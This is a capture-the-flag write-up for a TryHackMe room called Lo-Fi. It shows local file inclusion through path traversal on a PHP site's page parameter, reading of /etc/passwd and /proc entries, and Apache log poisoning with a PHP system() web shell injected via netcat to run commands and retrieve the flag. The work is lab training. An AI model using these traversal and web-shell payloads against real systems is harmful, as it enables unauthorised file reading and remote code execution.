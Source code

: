 # Lo-Fi

https://tryhackme.com/r/room/lofi

**Want to hear some lo-fi beats, to relax or study to? We've got you covered!**

## Overview

The challenge asks you to analyse a website and highlight, find the flag in the root directory.
In the description of the task, the author mentions two other LFI/RFI rooms.
There is only one task in the challenge

### Task 1

Climb the filesystem to find the flag!

The website is a php based solution where youtube videos linked in iframes are displayed.

#### Step 1 - Enumeration

Two parameters can be modified on the home page
http://10.10.83.116/?search=
http://10.10.83.116/?page=

search parameter not vulnerable
page parameter is better we can use file extraction

#### Step 2 - Find LFI

As a first step, let's look at the following methods

http://10.10.83.116/?page=/etc/passwd
The answer in this case is not yet positive: "HACKKERRR!! HACKER DETECTED. STOP HACKING YOU STINKIN HACKER!"

Ok, testing with full uri: http://10.10.83.116/?page=../../../../../../../../etc/passwd

![passwd file is ok](passwd.png)

#### Step 3 - Log poisoning 

How can we find the file if there is no hint at the beginning of the challenge?

First of all, we test the system for log poisoning vulnerability.

We know from the response header it is a Apache/2.2.22 (Ubuntu) server. So check these:

/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd-error.log
/var/log/httpd-access.log
/var/log/httpd/access_log
/var/log/auth.log

They don't work, but the proc file system may still help.

Request: http://10.10.83.116/?page=../../../../../../../../proc/self/cmdline - Actual process name

Answer: /usr/sbin/apache2-DFOREGROUND

Check file descriptors under proc. 

Request: http://10.10.83.116/?page=../../../../../../../../proc/self/fd/6

Answer: 

![apache log file](fd_1.png)

We can use it for RCE. 

poison the server with netcat:
``` 
nc 10.10.83.116 80
GET /<?php system($_GET['c']); ?>

HTTP/1.1 404 Not Found
Date: Sat, 25 Jan 2025 16:44:56 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 278
Connection: close
Content-Type: text/html; charset=iso-8859-1
```
#### Step 4 - Finding the flag 

Where is flag? 
http://10.10.83.116/?page=../../../../../../../../proc/self/fd/6&c=find%20/%20-name%20%22flag.txt%22%202%3E/dev/null

Answer:  "/flag.txt " 400 507 

We can look at the contents of the flag using the error that was originally exploited.
http://10.10.83.116/?page=../../../../../../../flag.txt


The takeaway from the writeup is that even if there is no hint, it is still possible to get the file out of the system.

